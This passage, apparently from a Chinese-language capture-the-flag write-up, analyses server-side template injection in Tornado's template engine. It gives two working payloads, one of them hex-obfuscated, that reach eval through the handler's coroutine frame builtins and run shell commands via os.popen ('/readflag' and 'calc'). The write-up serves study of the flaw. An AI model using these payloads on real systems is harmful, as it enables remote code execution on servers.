 
![image-20211128112245076](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128112245076.png)

调试到这里我们也就大概明白了整个生成pyhton_code的过程![image-20211128112430678](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211128112430678.png)

然后替换namespace

```
{'handler': <__main__.IndexHandler object at 0x0000020A7C44FF10>, 'request': HTTPServerRequest(protocol='http', host='127.0.0.1:8888', method='POST', uri='/', version='HTTP/1.1', remote_ip='127.0.0.1'), 'current_user': None, 'locale': <tornado.locale.CSVLocale object at 0x0000020A7C4C6190>, '_': <bound method CSVLocale.translate of <tornado.locale.CSVLocale object at 0x0000020A7C4C6190>>, 'pgettext': <bound method CSVLocale.pgettext of <tornado.locale.CSVLocale object at 0x0000020A7C4C6190>>, 'static_url': <bound method RequestHandler.static_url of <__main__.IndexHandler object at 0x0000020A7C44FF10>>, 'xsrf_form_html': <bound method RequestHandler.xsrf_form_html of <__main__.IndexHandler object at 0x0000020A7C44FF10>>, 'reverse_url': <bound method RequestHandler.reverse_url of <__main__.IndexHandler object at 0x0000020A7C44FF10>>, '_tt_modules': <tornado.web._UIModuleNamespace object at 0x0000020A7C44F310>, 'modules': <tornado.web._UIModuleNamespace object at 0x0000020A7C44F310>}

```

这是全局的

```
amespace = {
            "escape": escape.xhtml_escape,
            "xhtml_escape": escape.xhtml_escape,
            "url_escape": escape.url_escape,
            "json_encode": escape.json_encode,
            "squeeze": escape.squeeze,
            "linkify": escape.linkify,
            "datetime": datetime,
            "_tt_utf8": escape.utf8,  # for internal use
            "_tt_string_types": (unicode_type, bytes),
            # __name__ and __loader__ allow the traceback mechanism to find
            # the generated source code.
            "__name__": self.name.replace(".", "_"),
            "__loader__": ObjectDict(get_source=lambda name: self.code),
        }
```

这是template的

然后我们再看看生成的代码 发现他是直接拼接上去的，那我们就可以通过换行符去逃逸 去新的一行 执行我们的命令了。

## 0x02 payload

```
{% raw "\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x70\x6f\x70\x65\x6e\x28\x27\x2f\x72\x65\x61\x64\x66\x6c\x61\x67\x27\x29\x2e\x72\x65\x61\x64\x28\x29"
    _tt_utf8 = handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['ev'+'al']%}{% raw 1
    _tt_utf8 = lambda x:x
%}
```

```
{{"__import__('os').popen('calc').read()"
    _tt_utf8 = handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['ev'+'al']}}
```

注意的是空格缩进的问题是这个题报错的主要原因

handler对象中也有许多的其他的方法 自己DFS便利是最好的， 但是不会算法就jj。
